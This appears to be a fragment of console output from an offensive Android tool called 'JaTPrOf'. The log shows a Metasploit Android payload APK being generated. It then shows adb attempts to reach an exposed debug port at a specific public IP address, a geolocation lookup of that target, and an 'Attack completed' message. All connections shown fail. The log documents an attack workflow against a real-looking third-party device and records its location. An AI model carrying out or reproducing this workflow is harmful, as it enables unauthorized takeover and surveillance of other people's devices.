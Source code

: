 # JaTPrOf


failed to connect to '106.203.131.241:5555': Connection refused
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
No encoder specified, outputting raw payload
Payload size: 10239 bytes
Saved as: /tmp/payload.apk
adb: error: failed to get feature set: no devices/emulators found
adb: no devices/emulators found
Geolocation Information:
"Guwahati"
"AS"
"India"
Device Information:
adb: no devices/emulators found
error: no such device '106.203.131.241:5555'
Attack completed. Please check the Metasploit console for further details.
